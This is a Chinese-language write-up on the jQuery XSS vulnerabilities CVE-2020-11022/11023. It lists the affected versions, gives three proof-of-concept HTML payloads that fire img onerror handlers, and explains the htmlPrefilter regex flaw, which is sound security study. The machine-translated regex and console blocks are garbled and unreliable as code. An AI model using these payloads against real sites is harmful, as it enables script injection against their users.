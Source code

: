 # jQuery XSS漏洞 CVE-2020-11022/11023

## 漏洞描述

据NVD描述：在大于或等于1.2且在3.5.0之前的jQuery版本中，即使执行了消毒（sanitize）处理，也仍会执行将来自不受信任来源的HTML传递给jQuery的DOM操作方法（即html()、.append()等），从而导致xss漏洞。

## 漏洞影响

> [!NOTE]
>
> 3.5.0 > jQuery >= 1.2 

## 漏洞复现

在线复现地址， 可以通过观察变化了解漏洞

https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html

```python
PoC 1.
<style><style /><img src=x onerror=alert(1)> 

PoC 2. (Only jQuery 3.x affected)
<img alt="<x" title="/><img src=x onerror=alert(1)>">

PoC 3.
<option><style></option></select><img src=x onerror=alert(1)></style>
```

![](jQuery-XSS漏洞-CVE-2020-11022-11023.assets/1627363048601237.jpg)

PoC 1和PoC 2具有相同的根本原因。在中`.html()`，作为参数传递的HTML字符串将传递到 [$ .htmlPrefilter（）](https://api.jquery.com/jQuery.htmlPrefilter/)方法。该`htmlPrefilter`处理用于替换自闭合标签等进行到，通过使用以下正则表达式：`<tagname **/>**``<tagname ></tagname>`

```
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[ww：-] +）[^>] *）\ /> / gi
[。 ..]
htmlPrefilter：function（html）{
  return html.replace（rxhtmlTag，“ <$ 1> </ $ 2>”）;
} 
```

如果PoC 1的HTML通过此替换，则输出将是：

```
> $ .htmlPrefilter（'<style> <style /> <img src = x onerror = alert（1）>'）
<“ <style> <style> </ style> <img src = x onerror = alert（1） >“
```

黄色部分是替换的字符串。由于此替换，`<style />`样式元素内部被替换`<style ></style>`为，结果是，之后的字符串从样式元素中被踢出。之后，`.html()`将替换的HTML分配给`innerHTML`。在这里，`<img ...>`字符串变成了实际的img标签，并触发了onerror事件。

顺便说一下，上述正则表达式在3.x之前的jQuery中使用。从3.x开始，使用了另一个经过稍加修改的正则表达式

```
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[az] [^ \ / \ 0> \ x20 \ t \ r \ n \ f] *）[^>] *）\ /> / gi
```

此更改引入了另一个XSS向量，该向量可能仅由更多基本元素和属性导致XSS。通过此更改引入了PoC 2的向量。它仅适用于jQuery3.x。

```
> $ .htmlPrefilter（'<img alt =“ <x” title =“ /> <img src = x onerror = alert（1）>”>'）
<“ <img alt =” <x“ title =”> < / x“> <img src = x onerror = alert（1）>”>“
```

在这种情况下，属性值上的 img 字符串被踢出并发生XSS。